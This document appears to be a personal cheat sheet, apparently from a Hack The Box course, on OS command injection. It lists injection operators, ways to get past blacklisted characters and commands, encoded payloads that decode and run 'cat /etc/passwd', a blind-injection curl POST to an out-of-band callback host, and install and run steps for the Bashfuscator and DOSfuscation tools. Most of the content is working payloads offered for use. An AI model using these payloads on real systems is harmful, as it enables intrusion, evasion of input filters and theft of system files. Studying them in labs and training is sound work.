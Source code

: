 
> [!TIP]
> TESTER TOUTES LES ENTREES POSSIBLES

# **OPERATORS**

| **Injection Operator** | **Injection Character** | **URL-Encoded Character** | **Executed Command**                       |
| ---------------------- | ----------------------- | ------------------------- | ------------------------------------------ |
| Semicolon              | ;                       | `%3b`                     | Both                                       |
| New Line               | \n                      | `%0a`                     | Both                                       |
| Background             | &                       | `%26`                     | Both (second output generally shown first) |
| Pipe                   | \|                      | `%7c`                     | Both (only second output is shown)         |
| AND                    | &&                      | `%26%26`                  | Both (only if first succeeds)              |
| OR                     | \|\|                    | `%7c%7c`                  | Second (only if first fails)               |
| Sub-Shell              | ``                      | `%60%60`                  | Both (Linux-only)                          |
| Sub-Shell              | $()                     | `%24%28%29`               | Both (Linux-only)                          |


# **BYPASS BLACKLISTED CHARCTERS & COMMANDS**

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Command%20Injection#bypass-without-space

## **Caractères**

### LINUX

| Caractère | Bypass<br>            | Bypass avec ASCII (man ascii) |     |
| --------- | --------------------- | ----------------------------- | --- |
| SPACE     | ${IFS}, TAB, {ls,-la} |                               |     |
| /         | ${PATH:0:1}           | $(tr '!-}' '"-~'<<<'.')       |     |
| ;         | ${LS_COLORS:10:1}     | $(tr '!-}' '"-~'<<<':')       |     |
| &         | $(tr '!-}' '"-~'<<<%) | $(tr '!-}' '"-~'<<<'%')       |     |
| \|        |                       | $(tr '!-}' '"-~'<<<'{')       |     |
| .         |                       | $(tr '!-}' '"-~'<<<'-')       |     |
| $         |                       | $(tr '!-}' '"-~'<<<'#')       |     |
| >         |                       | $(tr '!-}' '"-~'<<<'=')       |     |

### WINDOWS

| Caractère | Bypass CMD<br>        | Bypass PSH       |
| --------- | --------------------- | ---------------- |
| SPACE     | ${IFS}, TAB, {ls,-la} |                  |
| \         | %HOMEPATH:~6,-11%     | $env:HOMEPATH[0] |
| ;         |                       | $env:PATHEXT[4]  |
|           |                       |                  |
|           |                       |                  |
|           |                       |                  |

## Blind injection

```
127.0.0.1
curl -X POST http://gquhdtcawfxbjaqfaygorhe3ioblylj0g.oast.fun -d 'test'
```

## **Commandes**

### LINUX & WINDOWS

Les quotes et doubles quotes ne doivent pas être mélangés et un nombre pair

```shell-session
w'h'o'am'i
```

```shell-session
w"h"o"am"i
```

### LINUX

```bash
w\ho\am\i
```

```bash
who$@ami
```

### WINDOWS

```cmd-session
who^ami
```


### **Manipulation de la casse**

#### LINUX

```bash
$(tr "[A-Z]" "[a-z]"<<<"WhOaMi")
```

```bash
$(tr "[A-Z]" "[a-z]"<<<'W'hOaM'i')
```

```bash
$(a="WhOaMi";printf %s "${a,,}")
```

#### WINDOWS

```powershell-session
WhOaMi
```

### **REVERSE**

#### LINUX

```bash
echo 'whoami' | rev
```

```bash
$(rev<<<'imaohw')
```

#### WINDOWS

```powershell-session
"whoami"[-1..-20] -join ''
```

```powershell-session
iex "$('imaohw'[-1..-20] -join '')"
```

### **ENCODAGE**

#### LINUX
##### *BASE64 UTF8*

```bash
echo -n 'cat /etc/passwd | grep 33' | base64
```
##### *BASE64 UTF8*

```BASH
echo -n whoami | iconv -f utf-8 -t utf-16le | base64
```


<<< = \n

```BASH
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

##### *HEX*

```bash
echo -n 'cat /etc/passwd | grep 33' | xxd
```

<<< = \n

```BASH
bash<<<$(xxd -p -r<<<636174202f6574632f706173737764207c2067726570203333)
```

#### WINDOWS

##### *BASE64 UTF16*

```powershell-session
[Convert]::ToBase64String([System.Text.Encoding]::Unicode.GetBytes('whoami'))
```


# AUTOMATED OBFUSCATION TOOLS
## **LINUX**

### *BASHFUSCATOR*

#### INSTALL

```bash
git clone https://github.com/Bashfuscator/Bashfuscator;
cd Bashfuscator;
pip3 install setuptools==65;
python3 setup.py install --user
```
#### RUN

```bash
bashfuscator -c 'cat /etc/passwd' -s 1 -t 1 --no-mangling --layers 1 --test
```

## **WINDOWS**
### *DOSfuscation*

#### INSTALL

```powershell-session
git clone https://github.com/danielbohannon/Invoke-DOSfuscation.git;
cd Invoke-DOSfuscation;
Import-Module .\Invoke-DOSfuscation.psd1;
Invoke-DOSfuscation;
```
#### RUN

```powershell-session
SET COMMAND type C:\Users\htb-student\Desktop\flag.txt
```

```powershell-session
encoding
```

```powershell-session
1
```



